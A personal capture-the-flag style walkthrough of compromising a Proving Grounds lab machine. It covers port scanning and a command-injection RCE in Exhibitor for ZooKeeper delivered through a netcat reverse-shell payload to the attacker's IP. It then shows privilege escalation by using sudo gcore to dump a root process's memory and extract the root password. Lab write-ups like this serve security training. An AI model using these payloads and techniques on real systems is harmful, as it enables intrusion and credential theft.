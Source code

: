 # Main
This is an overview of my methods in rooting a machine from pg. I have purposefully left the names of all pg machines out in titles and replaced them with generic names to avoid any spoiling while still maintaining the opportunity to share my methods, skills, and journey. 

## Initial

### Port scans:
```
PORT     STATE SERVICE
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
631/tcp  open  ipp
2222/tcp open  EtherNetIP-1
8080/tcp open  http-proxy
8081/tcp open  blackice-icecap

Host script results:
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          
|_smb-vuln-ms10-061: false
|_smb-vuln-ms10-054: false
```

After discovering a webserver running on port 8081 during initial enumeration, I navigated to that page in the browser and discovered a portal for something called 'Exhibitor for ZooKeeper.' Immediately after googling this, it was discovered that the software is vulnerable to RCE.

---
Potential Exploits:
https://www.exploit-db.com/exploits/48654

### Web - initial:
```
Exhibitor for ZooKeeper

https://www.exploit-db.com/exploits/48654
```

The exploitdb PoC says to navigate to the config tab and to enter a reverse shell surrounded with '$()'

I started a netcat listener locally and after entering the reverse shell command in the javascript.env field and then 'committing,' I had a reverse shell.

```
$(/bin/nc -e /bin/sh 192.168.49.133 4444 &)
```
---
### Foothold (overview):
1. scan --> web server on 8081
2. exhibitor for zookeeper --> RCE
3. RCE --> revshell

---

### Privilege Escalation / Post-Exploit

After gaining a foothold on the target system via RCE, I ran some basic privesc enumeration commands.
```bash
find . -perm /4000 2>/dev/null

ps aux | grep root

sudo -l
```
Running 'sudo -l' returned interesting results:
```
User c####s may run the following commands on p####n:
    (ALL) NOPASSWD: /usr/bin/gcore
####@####:/$ ps -ef
```
Checking gtfobins, a method of privilege escalation was found relating to the gcore binary:
https://gtfobins.github.io/gtfobins/gcore/#sudo

After a bit of research it was discovered that gcore produces memory dumps and with sudo privileges, it is possible to dump processes running under privileged users, potentially exposing passwords and sensitive information. The potentially tricky part in this is identifying the right process to dump, but this machine had a seemingly-perfect process to dump, 'password-store.'
```
$ ps -ef
root       493     1  0 14:13 ?        00:00:00 /usr/bin/password-store

$ sudo gcore 493

$ strings core*


001 Password: root:
##PASSWORD_REDACTED##
```
After dumping this process, I ran strings on the output and after combing through the results, the password for root user was discovered.
After this, escalation was as simple as switching to root user and entering the password. 
```

$ su root

$ root@pelican:~# cat proof.txt
##HASH_REDACTED##
```